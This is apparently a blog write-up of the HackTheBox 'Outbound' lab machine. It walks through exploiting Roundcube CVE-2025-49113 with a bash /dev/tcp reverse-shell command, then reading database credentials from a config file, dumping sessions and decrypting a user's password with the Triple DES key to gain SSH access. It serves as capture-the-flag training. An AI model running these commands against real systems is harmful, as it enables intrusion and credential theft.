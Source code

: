 ```yaml
---
title: "Outbound HacktheBox Writeup"
date: "Jul 29, 2025"
description: "Detailed writeup for Outbound HacktheBox"
image: "/images/outbound.png"
---
```


Kicking off my return to HackTheBox after a long break, I stumbled upon an intriguing new machine—Outbound. Ready to dust off my hacking skills, I jumped straight into action by quickly setting up the VPN connection:

sudo openvpn outbound.ovpn


i poked at the box with an Nmap scan:

```bash
nmap -sC -sV -oN scan.txt 10.10.11.77
```
Here's the result of the scan:
![namp](/outbound.png)

I discovered two open ports: 22 (SSH) and 80 (HTTP).

Visiting http://10.10.11.77 redirected me to mail.outbound.htb, so I added the following line to my /etc/hosts file:

```bash
10.10.11.77 mail.outbound.htb
```

After refreshing the page, I reached a Roundcube webmail login. Interestingly, the login credentials were provided directly on the page:
![machine](/htb.png)
After logging in, I quickly noticed the Roundcube version had a vulnerability: CVE-2025-49113.
(Quick reminder: Always check the software version for known CVEs!)

Next, I started a listener on my attacker machine:

```bash
nc -nlvp 4444
```
Then, on the target, I cloned the exploit repository and executed the exploit:

```bash
git clone https://github.com/fearsoff-org/CVE-2025-49113.git
cd CVE-2025-49113
php CVE-2025-49113.php http://mail.outbound.htb tyler LhKL1o9Nm3X2 "bash -c 'bash -i >& /dev/tcp/10.10.16.32/4444 0>&1'"
```
Now, with a shell as www-data amd you can see the exploit executed sucessfully 

![www-data](/htb2.png)
After this, I began looking around for important files and directories. Eventually, I came across the config directory located at:
```bash
 /var/www/html/roundcube/public_html/roundcube/config
``` 
Inside this directory, I found the config.inc.php file  

![Image](/config.png)

Now, since I had the database credentials clearly listed in the config.inc.php file, I could interact directly with the database. 
The credentials were as follows:

```bash
DB User: roundcube  
DB Pass: RCDBPass2025  
DB Name: roundcube  
```

inside the database, I found the tables containing users and sessions. Although the users table didn’t contain any passwords, the sessions table looked promising.
 I discovered these tables after running the SQL command SHOW TABLES;, which helped me quickly determine what to examine further.

```bash
mysql -u roundcube -pRCDBPass2025 roundcube
SHOW TABLES;
SELECT * FROM session;

```
The session data caught my attention because it was encoded in Base64, indicating that I'd need to decode it to find anything useful.
![Base64](/sessions.png)

I proceeded to decode the session data, and upon decoding it, I obtained the following output:
![carbon](/carbon.png)

First, I decoded the session data using CyberChef.io, 

![decode](/decode.png)


carefully going through each entry one at a time. While decoding, I initially came across Tyler's credentials, which I already had, so I continued searching.

 Soon after, I discovered Jacob's session data, which contained an encrypted password—exactly what I was looking for.

To clearly view the decoded data, I first decoded the session using CyberChef’s Base64 decode operation with the "Y64" option.

The next step was decrypting Jacob's password. Previously, I had located an encryption key (rcmail-!24ByteDESkey*Str) in the config.inc.php file, which was crucial for this task.

After doing some additional research, I learned that Roundcube employs the Triple DES (DES-EDE3-CBC) encryption method.

Equipped with this information, I converted Jacob's Base64-encoded session data into Hex format and then successfully decrypted it with Triple DES using CyberChef.
and i got the access using password then 

![jacobpass](/jacobpass.png)

after this we found ssh login ssh jacob@10.10.11.77 and his password to ssh  gY4Wr3a1evp4 

![userflag](/userflag.png)

and we successfully found user flag here :)

